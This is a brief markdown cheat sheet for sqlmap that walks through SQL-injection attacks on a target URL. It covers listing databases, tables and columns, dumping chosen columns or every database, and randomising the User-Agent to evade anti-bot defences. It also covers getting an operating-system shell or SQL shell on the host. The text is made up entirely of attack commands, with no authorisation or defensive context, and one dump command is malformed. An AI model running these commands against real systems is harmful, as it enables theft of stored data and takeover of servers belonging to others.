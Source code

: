 # Discovery the database list

```
sqlmap -u "urls" --dbs
```

Will getting some list of Database on the host


# Discovery tables list

```
sqlmap -u "urls" -D "database" --tables
```


# Get the columns list

```
sqlmap -u "urls" -D "database" -T "tables" --columns
```

# Dump specify columns with 

```
sqlmap -u "urls" -D "database" -T "tables" -C "columns" --dump
```
```
sqlmap -u "urls" -D "database" -T "tables" -C "columns,columns" --dump
```
# Dump the entire columns 

```
sqlmap -u "urls" -D "database" -T "tables" --dump
```

# Add some configuration

## Randoming the User-Agent for anti-bots
```
sqlmap -u "urls" -D "database" -T "tables" --dump --random-agent
```

## Trying get the OS-Shell
```
sqlmap -u "urls" --os-shell
```

## The SQL Shell 
```
sqlmap -u "urls" --sql-shell
```


# Tired? Dump All the things

```
sqlmap -u "urls" -D --dump-all
```
